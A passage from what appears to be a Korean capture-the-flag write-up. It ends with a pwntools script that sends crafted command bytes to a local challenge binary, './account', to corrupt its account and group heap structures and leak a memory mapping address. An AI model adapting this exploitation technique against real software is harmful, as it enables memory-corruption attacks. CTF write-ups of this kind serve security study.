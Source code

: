 위 과정을 거치며 shell을 획득할 수 있습니다.

### Exploit
```python
from pwn import *
from time import sleep
e = ELF('./account')
p = e.process(aslr=True)

sla = p.sendlineafter
sa = p.sendafter

def add_acc(_type, pay):
    p.send(b'\x00' + p8(_type) + pay + b'\x00')
    sleep(0.3)

def remove_acc(uid):
    p.send(b'\x01' + p8(uid))
    sleep(0.3)

def edit_acc(uid, _type, pay):
    p.send(b'\x02' + p8(uid) + p8(_type) + pay + b'\x00')
    sleep(0.3)

def add_grp():
    p.send(b'\x10\0\0\0\0')
    sleep(0.3)

def remove_grp(gid):
    p.send(b'\x11'+p8(gid))
    sleep(0.3)

def add_acc_in_grp(gid, uid) :
    p.send(b'\x12' + p8(gid) + p8(uid))
    sleep(0.3)

def remove_acc_in_grp(gid, uid):
    p.send(b'\x13' + p8(gid) + p8(uid))
    sleep(0.3)

def print_all(gid):
    p.send(b'\x14' + p8(gid))
    sleep(0.3)


add_grp()
add_acc(1, b'A'*0x18)           # 0
add_acc(1, b'ipwnnn')           # 1
edit_acc(0, 0, b'A'*0x17)

add_acc(1, b'B'*0x7f)           # 2
add_acc_in_grp(0, 2)
edit_acc(1, 0, b'ipwnnnA\1\1')
remove_acc_in_grp(0, 2)
add_grp()
add_acc_in_grp(1, 0)
add_acc_in_grp(0, 2)

print_all(0)
p.recvuntil(b'\x98')
maps = u64(b'\x98' + p.recv(5) + b'\0\0') - 0x98
log.info('[MAPS] %#x'%maps)

```